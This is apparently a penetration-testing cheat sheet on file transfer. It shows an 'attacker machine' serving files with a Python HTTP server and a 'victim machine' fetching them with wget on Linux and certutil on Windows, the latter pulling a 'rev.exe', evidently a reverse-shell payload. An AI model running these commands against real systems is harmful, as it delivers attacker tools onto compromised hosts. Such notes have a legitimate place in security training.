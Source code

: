 # 2_file_transfer

## Linux

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine.
```shell
wget http://$me:8888/filename -O filename
```

## Windows

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine.
```shell
certutil -urlcache -f http://$me:8888/rev.exe rev.exe
```
